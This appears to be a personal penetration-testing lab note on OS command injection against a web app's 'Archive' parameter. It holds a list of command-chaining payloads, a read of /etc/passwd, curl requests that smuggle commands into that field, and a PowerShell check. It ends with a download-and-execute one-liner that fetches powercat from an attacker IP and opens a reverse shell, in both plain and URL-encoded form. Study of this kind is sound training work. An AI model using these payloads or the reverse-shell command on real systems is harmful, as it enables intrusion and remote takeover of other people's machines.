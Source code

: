 
[Command Injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)


### START SMALL FIRST

#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
move from there.

### USING CURL TO SEND CMD INJECTIONS

You can see us trying to submit a git clone repository
![[Pasted image 20230929103823.png]]
use burp to see the archive request **Note: see how it uses URL encoding on it**
After seeing the Archive parameter, use curl to provide cmds to the parameter
![[Pasted image 20230929103922.png]]

It detects a cmd injection
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=ipconfig' http://192.168.231.189:8000/archive
Command Injection detected. Aborting...%!(EXTRA string=ipconfig)      

IT IS ACCEPTING GIT
──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=**git**' http://192.168.231.189:8000/archive
An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C ] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           [--super-prefix=<path>] [--config-env=<name>=<envvar>]
           <command> [<args>]

┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git **version**' http://192.168.231.189:8000/archive
Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1

**USE %3B AS A DELIMITER FOR MULTIPLE COMMANDS**
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git**%3Bi**pconfig' http://192.168.231.189:8000/archive

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.231.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.231.254

This cmd is used to get  identify whether is a cmd oor powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

^1cb993


After URL encode it will look like this:             LEAVE THE PARENTHESIS ON IT!
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.231.189:8000/archive
Repository successfully cloned with command: git;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell and output: usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           [--super-prefix=<path>] [--config-env=<name>=<envvar>]
           <command> [<args>]

In this instance, it shows that is a powershell
See 'git help git' for an overview of the system.
PowerShell


### INSTALL POWERCAT (POWERSHELL+NETCAT FOR KALI)

sudo apt install powercat

┌──(hollacosta㉿kali1)-[/usr/share/powershell-empire]
└─$ locate powercat                     FIND LOCATION OF .ps1 FILE
/usr/share/powershell-empire/data/module_source/management/powercat.ps1
/usr/share/powershell-empire/lib/modules/powershell/management/powercat.py
/usr/share/powershell-empire/lib/modules/powershell/management/__pycache__/powercat.cpython-39.pyc
sr/share/powershell-empire]
└─$ cp /usr/share/powershell-empire/data/module_source/management/powercat.ps1 /home/hollacosta 


**Command to download PowerCat and execute a reverse shell**
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
Downloading Powercat and creating a reverse shell via Command Injection
string is your ifconfig ip address

┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.181%2Fpowercat.ps1%22)%3Bpowercat%20-c%20**192.168.119.3**%20-p%204444%20-e%20powershell' http://192.168.231.189:8000/archive



